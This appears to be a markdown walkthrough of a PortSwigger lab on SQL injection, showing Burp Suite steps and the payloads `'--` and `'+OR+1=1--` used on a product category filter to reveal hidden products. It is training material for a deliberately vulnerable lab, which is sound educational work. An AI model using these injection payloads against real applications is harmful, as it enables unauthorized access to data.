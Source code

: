 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

## To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

**NOTE**
Comments in database
Oracle,Microsoft,PostgreSQL Uses `--`
MySQL User `#`

---

step 1

click on any category 
like here lifestyle click on lifestyle `/filter?category=Lifestyle`

![screnshot](./images/lab1_category_life_style.png)


step 2

use burpsuite to trace all traffic 
in burpsuite go to proxy => http history => you will see `/filter?category=Lifestyle` send to repeater

![screnshot](./images/lab1_http_history_lifestyle.png)


![screnshot](./images/lab1_repeater_lifestyle.png)

step 3

add `'--` at the end of URL request 
`/filter?category=Lifestyle'--`
send request you will get 200 response

![screnshot](./images/lab1_add_first_payload.png)

in render section you see only lifestyle related product showing

![screnshot](./images/lab1_render_lifestyle_repeater.png)

SQL query be like
```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

step 4

add `'+OR+1=1--` at the end of URL request 
`/filter?category=Lifestyle'+OR+1=1--`
send request you will get 200 response
go to render section you will notice there are hidden product also visible with lifestyle

![screnshot](./images/lab1_hidden_data.png)

SQL query be like
```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

step 5

reload home page into browser to solve lab

![screnshot](./images/lab1_solved_lab.png)
